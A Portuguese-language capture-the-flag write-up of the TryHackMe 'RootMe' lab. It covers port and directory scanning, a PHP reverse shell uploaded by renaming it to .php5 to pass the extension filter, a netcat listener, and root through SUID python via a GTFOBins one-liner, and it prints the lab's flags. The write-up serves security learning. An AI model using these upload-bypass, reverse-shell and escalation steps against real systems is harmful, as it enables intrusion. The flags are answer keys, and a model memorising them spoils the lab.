










# Root Me - TryHackMe  
**Dificuldade:** Fácil  
**Data:** 11/08/2025  

---

> **Aviso importante:**  
> Este write-up refere-se a um laboratório público disponível no TryHackMe. Todo o conteúdo aqui é destinado a fins educacionais e de aprendizado em segurança da informação.  

**Laboratório disponível em:** https://tryhackme.com/room/rrootme

---

### 1. Escaneie a máquina, quantas portas estão abertas?

Para mapear os serviços que estão em execução na máquina, utilizamos o `Nmap` com os seguintes parâmetros:

- `-T5`: modo rápido de scan  
- `-sC`: scripts padrão do Nmap  
- `-sV`: detecção de versão dos serviços  
- `-Pn`: desabilita ping, assume host ativo

```bash
┌──(root㉿kali)-[/home/kali]
└─# nmap -T5 -sC -sV -Pn 10.10.49.88  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-11 13:05 -03
Warning: 10.10.49.88 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.49.88
Host is up (0.35s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ce:03:b4:c9:5a:96:65:ef:ff:15:83:e6:6e:c5:a3:c3 (RSA)
|   256 87:9a:76:ad:79:b4:e5:d8:2a:c2:1b:31:37:5c:95:90 (ECDSA)
|_  256 d8:2a:5e:81:0e:92:cf:b8:71:d5:27:ac:d6:fe:a8:df (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.93 seconds
```
O resultado mostra que as portas abertas são:

- SSH na porta 22.

- Servidor HTTP Apache na porta 80

**Resposta:** `2`

---

### 2. Qual versão do Apache está em execução?
**Resposta:** `2.4.29` 
> Obs: No resultado do nmap, a versão do Apache mostrada é 2.4.41. No entanto, no laboratório do TryHackMe, a resposta correta esperada é 2.4.29. Isso acontece porque o laboratório pode estar desatualizado em relação ao sistema real.

---

### 3. Qual serviço está sendo executado na porta 22?
**Resposta:** `SSH`

---

### 4. Encontre diretórios no servidor web usando a ferramenta GoBuster.
**Resposta:** `Não é necessária resposta`

---
### 5. Qual é o diretório oculto?

Ao acessar a página principal via HTTP (porta 80), visualizamos uma página com um texto centralizado, sem muitas informações aparentes:



Para descobrir diretórios escondidos no servidor web, usamos uma ferramenta de força bruta de diretórios, como o `gobuster` (ou `feroxbuster` que irei utilizar).

```bash
┌──(root㉿kali)-[/home/kali]
└─# feroxbuster -u http://10.10.49.88 -w /usr/share/wordlists/dirb/common.txt
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.49.88
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirb/common.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      273c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      105l      188w     1697c http://10.10.49.88/css/home.css
200      GET       11l       22w      263c http://10.10.49.88/js/maquina_de_escrever.js
200      GET       25l       44w      616c http://10.10.49.88/
200      GET      100l      161w     1611c http://10.10.49.88/css/panel.css
301      GET        9l       28w      308c http://10.10.49.88/css => http://10.10.49.88/css/
200      GET       25l       44w      616c http://10.10.49.88/index.php
301      GET        9l       28w      307c http://10.10.49.88/js => http://10.10.49.88/js/
301      GET        9l       28w      310c http://10.10.49.88/panel => http://10.10.49.88/panel/
301      GET        9l       28w      312c http://10.10.49.88/uploads => http://10.10.49.88/uploads/
200      GET       22l       47w      732c http://10.10.49.88/panel/index.php
[####################] - 61s     9249/9249    0s      found:10      errors:0      
[####################] - 40s     4614/4614    115/s   http://10.10.49.88/ 
[####################] - 0s      4614/4614    13413/s http://10.10.49.88/js/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 1s      4614/4614    5384/s  http://10.10.49.88/css/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 35s     4614/4614    131/s   http://10.10.49.88/panel/ 
[####################] - 0s      4614/4614    13183/s http://10.10.49.88/uploads/ => Directory listing (add --scan-dir-listings to scan)
```
O scan revela o diretório `/panel/`, que não está listado diretamente na homepage, sendo assim um diretório oculto, além de conter também o diretório `/uploads/`.

**Resposta:** `/panel/`

---

## Encontre um formulário para fazer upload, obtenha um shell reverso e encontre o sinalizador.
### 6. user.txt

Ao acessar o diretório `/panel/`, encontramos um formulário para upload de arquivos. Já o diretório `/uploads/` lista os arquivos enviados.

`/panel/`



`/uploads/ `



Para obter acesso shell no servidor, vamos enviar um arquivo PHP que abre um shell reverso, ou seja, ele conecta de volta à nossa máquina para permitir execução de comandos remotamente.

Vamos usar o php-reverse-shell de Pentestmonkey, uma ferramenta amplamente usada para este propósito.

Disponivel em: https://github.com/pentestmonkey/php-reverse-shell

Passos:
1. Clonamos o repositório:
```bash
┌──(root㉿kali)-[/home/kali/Downloads]
└─# git clone https://github.com/pentestmonkey/php-reverse-shell
Cloning into 'php-reverse-shell'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (3/3), done.
remote: Total 10 (delta 1), reused 1 (delta 1), pack-reused 6 (from 1)
Receiving objects: 100% (10/10), 9.81 KiB | 3.27 MiB/s, done.
Resolving deltas: 100% (2/2), done.
                                                                                              
┌──(root㉿kali)-[/home/kali/Downloads]
└─# cd php-reverse-shell 
                                                                                              
┌──(root㉿kali)-[/home/kali/Downloads/php-reverse-shell]
└─# ls
CHANGELOG  COPYING.GPL  COPYING.PHP-REVERSE-SHELL  LICENSE  php-reverse-shell.php  README.md
```

2. Editamos o arquivo `php-reverse-shell.php` para alterar o IP (nosso IP local) e a porta (por exemplo, 4444) que o shell irá conectar.



```bash
┌──(root㉿kali)-[/home/kali/Downloads/php-reverse-shell]
└─# nano php-reverse-shell.php 
```
3. Tentamos fazer upload do arquivo pelo formulário do `/panel/`.





4. O upload com extensão `.php` é bloqueado. Para contornar, renomeamos a extensão para `.php5`, que ainda é interpretada pelo servidor PHP mas pode burlar filtros simples:

```bash
┌──(root㉿kali)-[/home/kali/Downloads]
└─# mv php-reverse-shell.php reverse.php5
```

5. Realizamos o upload novamente e confirmamos que o arquivo aparece no diretório `/uploads/`.



6. No terminal, abrimos um listener para receber a conexão do shell reverso:

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 4444                         
listening on [any] 4444 ...
```

Explicando o comando netcat (`nc`):

`-l`: coloca o netcat em modo "listener" para aguardar conexões.

`-v`: modo verboso (mais informações na saída).

`-n`: evita resolver nomes DNS (mais rápido).

`-p`: porta onde ficará ouvindo.

7. Acessamos pelo navegador http://10.10.49.88/uploads/reverse.php5 para disparar a conexão reversa, ou podemos simplesmente clicar nele



8. Se tudo der certo, no terminal veremos a conexão estabelecida e acesso shell.

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 4444                         
listening on [any] 4444 ...
connect to [10.2.3.98] from (UNKNOWN) [10.10.49.88] 37666
Linux ip-10-10-49-88 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 16:23:59 up 21 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/
$ 
```

Estamos logados como usuário `www-data`, um usuário comum do servidor web.

Para melhorar a interação do shell, podemos executar:

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Isso invoca um shell bash mais completo.

Em seguida, procuramos pela flag `user.txt`:

```bash
www-data@ip-10-10-49-88:/$ find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
```
Explicando o comando `find`:

`/`: indica o diretório raiz, ou seja, a busca será feita em toda a estrutura de arquivos do sistema. 

`-type f`: filtra a busca para arquivos do tipo file (arquivos comuns, excluindo diretórios, links simbólicos, etc).

`-name user.txt`: procura especificamente por arquivos cujo nome seja exatamente

`2>/dev/null`: redireciona mensagens de erro para o "buraco negro" do sistema, evitando que erros de permissão ou outros poluam a saída do comando.

O arquivo se encontra em /var/www/, visualizando o conteúdo:

```bash
www-data@ip-10-10-49-88:/$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```
**Resposta:** `THM{y0u_g0t_a_sh3ll}`

---

## Agora que temos um shell, vamos aumentar nossos privilégios para root.

### 7. Procure arquivos com permissão SUID, qual arquivo é estranho?
**O que é SUID?**
SUID (Set User ID) é uma permissão especial em sistemas Unix/Linux que permite que um programa seja executado com os privilégios do dono do arquivo, e não do usuário que o executa. Isso pode ser uma vulnerabilidade se um programa com SUID permitir execução de comandos arbitrários.

Para encontrar arquivos com essa permissão, rodamos:

```bash
www-data@ip-10-10-49-88:/$ find / -user root -perm /4000 2>/dev/null
find / -user root -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python2.7
<TRECHO OMITIDO>
```
Mais sobre o comando `find`:

`-user root`: filtra para encontrar apenas arquivos que pertencem ao usuário root. 

`-perm /4000`: procura arquivos com a permissão SUID (Set User ID) ativada.

- O número 4000 representa a permissão SUID em octal.

- Arquivos com SUID executam com os privilégios do dono do arquivo (neste caso, root), mesmo se o usuário que os executa não for root.

No resultado, um arquivo que chama atenção é o `python2.7` com permissão SUID, o que pode ser explorado.

**Resposta:** `Python`

---

### 8. Encontre um formulário para aumentar seus privilégios.
**Resposta:** `Não é necessária resposta`

Consultamos o site GTFOBins, que lista métodos para explorar arquivos com permissões especiais. 

Disponivel em: https://gtfobins.github.io/

Buscamos `python` e encontramos a forma de invocar um shell privilegiado:



Na seção de SUID, temos o código
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```


Aqui o Python executa um shell (`sh`) com privilégios elevados devido ao SUID.

```bash
www-data@ip-10-10-49-88:/$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Após rodar, verificamos se virou root:

```bash
# whoami
root
```
---

### 9. root.txt:

Agora com privilégios root, acessamos a pasta /root para pegar a flag:

```bash
cd /root
ls
root.txt  snap   
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```
**Resposta:** `THM{pr1v1l3g3_3sc4l4t10n}`

<div align="center"> <h2>CTF CONCLUÍDO! 🚩🏆</h2> </div>